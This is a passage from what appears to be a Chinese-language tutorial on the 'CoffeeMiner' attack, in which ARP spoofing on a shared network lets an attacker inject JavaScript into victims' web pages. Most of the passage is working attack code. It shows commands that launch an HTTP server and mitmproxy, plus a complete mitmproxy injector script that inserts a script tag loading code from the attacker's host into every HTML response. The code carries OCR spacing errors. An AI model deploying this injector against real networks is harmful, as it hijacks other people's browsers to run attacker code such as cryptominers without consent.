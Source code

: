 ```
os.system("xterm-hold -e 'python3 httpServer.py' &")
#start the mitmproxy
os.system("~/.local/bin/mitmdump-s 'injector.py http://10.0.2.20:8000/script.js' -T")
```

‘injector.py’脚本代码如下：
```
from bs4 import BeautifulSoup
from mitmproxy import ctx, http
import argparse
class Injector:
def __init__(self, path):
self.path = path
def response(self, flow: http.HTTPFlow)-> None:
if self.path:
html = BeautifulSoup(flow.response.content,"html.parser")
print(self.path)
print(flow.response.headers["content-type"])
ifflow.response.headers["content-type"] == 'text/html':
print(flow.response.headers["content-type"])
script = html.new_tag(
"script",
src=self.path,
type='application/javascript')
html.body.insert(0, script)
flow.response.content =str(html).encode("utf8")
print("Scriptinjected.")
def start():
parser = argparse.ArgumentParser()
parser.add_argument("path",type=str)
args = parser.parse_args()
return Injector(args.path)
```

脚本的运行命令如下：
```
>python3 coffeeMiner.py RouterIP
```

## 四、攻击演示
如果我们想要手动实现攻击的话，我们需要按照下图进行配置：
![/img/2018-01-25/15167752642466.png](http://image.3001.net/images/20180124/15167752642466.png)

接下来，当ARP欺骗攻击完成之后（并且HTTP服务器和注入代码随时待命），我们就需要让目标用户的设备去浏览一个网页，而目标用户的流量经过攻击者设备时，便会触发代码注入：
![/img/2018-01-25/15167752739800.png](http://image.3001.net/images/20180124/15167752739800.png)

此时，当目标用户浏览这个HTML页面时，攻击者所注入的代码将会被运行。

### 4.1 演示视频
在下面的视频中，我们将演示如何使用coffeeMiner.py脚本来实施完整的攻击。
